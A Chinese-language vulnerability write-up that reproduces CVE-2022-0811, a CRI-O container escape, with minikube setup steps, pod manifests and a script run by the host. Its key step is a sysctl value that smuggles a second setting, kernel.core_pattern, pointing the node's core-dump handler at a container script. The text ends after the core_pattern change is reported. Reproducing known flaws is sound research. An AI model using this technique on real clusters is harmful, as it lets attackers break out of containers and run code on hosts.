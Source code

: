 # CVE-2022-0811漏洞复现及分析

## 故事背景

故事的背景要从这个[cri-o commit](https://github.com/cri-o/cri-o/commit/26de5b665937608100817bc3b21f3eca41014dd2)说起：
```
pinns: allow sysctls to be passed
sysctls must be passed to pinns of the format -s 'key=value'+'key2=value2'
also, move the pinns source code to `pinns/src` to clean up the top level directory a bit

```

## 漏洞复现
按照[crowdstrike](crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/)原文中的步骤貌似有些问题，下面是我修正后的部署步骤。
使用minikube创建基本环境：

**安装minikube**
```
curl -LO https://storage.googleapis.com/minikube/releases/latest/minikube-linux-amd64
sudo install minikube-linux-amd64 /usr/local/bin/minikube
```
**利用minikube部署环境**
```
minikube start --kubernetes-version=v1.23.3  --container-runtime=crio --extra-config=kubelet.cgroup-driver=systemd
```
这里需要指定cri-o版本为1.9以上。


### 启动pod来执行恶意脚本**
创建malicious-script-host.yaml文件：
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: malicious-script-host
spec:
  containers:
  - name: alpine
    image: alpine:latest
    command: ["tail", "-f", "/dev/null"]
```
执行`kubectl create -f ./malicious-script-host.yaml`启动pod

最终，内核将调用这个pod中的一个脚本来响应一个核心转储。内核将在主机挂载名称空间中起作用，因此我们需要确定从这个名称空间到容器文件系统的路径。

```
ubuntu@VM-16-9-ubuntu:~$ kubectl exec -it malicious-script-host -- /bin/sh
/ # mount
overlay on / type overlay (rw,nodev,relatime,lowerdir=/var/lib/containers/storage/overlay/l/IKOWDZD2CTQDWYPYXIDKDNRVMJ,upperdir=/var/lib/containers/storage/overlay/f8be84d363927dc25af50e7ac17b1ffdc6514e64d7b3375f9198aa051a2f9211/diff,workdir=/var/lib/containers/storage/overlay/f8be84d363927dc25af50e7ac17b1ffdc6514e64d7b3375f9198aa051a2f9211/work)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev type tmpfs (rw,nosuid,size=65536k,mode=755)
cgroup on /sys/fs/cgroup/cpuset type cgroup (ro,nosuid,nodev,noexec,relatime,cpuset)
cgroup on /sys/fs/cgroup/pids type cgroup (ro,nosuid,nodev,noexec,relatime,pids)
shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)
tmpfs on /etc/resolv.conf type tmpfs (rw,nosuid,nodev,noexec,relatime)
tmpfs on /etc/hostname type tmpfs (rw,nosuid,nodev,noexec,relatime)
/dev/vda1 on /etc/hosts type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/vda1 on /dev/termination-log type ext4 (rw,relatime,errors=remount-ro,data=ordered)
tmpfs on /run/secrets/kubernetes.io/serviceaccount type tmpfs (ro,relatime,size=1876832k)
proc on /proc/bus type proc (ro,nosuid,nodev,noexec,relatime)

```
这里省略了一些内容，我们只需关注第一行中的`                            
/var/lib/containers/storage/overlay/8773b4c7542fd1bd5bbc48b2ce6be572e07acf669fb154bfae277a94835b1cfc/diff`
注意： 每个人的环境中这里都不一样，后面内容需要对应修改。

**创建一个恶意脚本来调用核心转储**
```
#!/bin/sh
date >> /var/lib/containers/storage/overlay/8773b4c7542fd1bd5bbc48b2ce6be572e07acf669fb154bfae277a94835b1cfc/diff/output
whoami >> /var/lib/containers/storage/overlay/8773b4c7542fd1bd5bbc48b2ce6be572e07acf669fb154bfae277a94835b1cfc/diff/output
hostname >>  /var/lib/containers/storage/overlay/8773b4c7542fd1bd5bbc48b2ce6be572e07acf669fb154bfae277a94835b1cfc/diff/output
```
### 使用第二个Pod指向恶意脚本的核心模式
创建sysctl-set.yaml文件

```
apiVersion: v1
kind: Pod
metadata:
  name: sysctl-set
spec:
  securityContext:
   sysctls:
   - name: kernel.shm_rmid_forced
     value: "1+kernel.core_pattern=|/var/lib/containers/storage/overlay/3ef1281bce79865599f673b476957be73f994d17c15109d2b6a426711cf753e6/diff/malicious.sh #"
  containers:
  - name: alpine
    image: alpine:latest
    command: ["tail", "-f", "/dev/null"]
```
执行`kubectl create -f ./sysctl-set.yaml`启动该pod。

它成功地更新了节点范围内的core_pattern，使其指向我们的恶意脚本主机容器
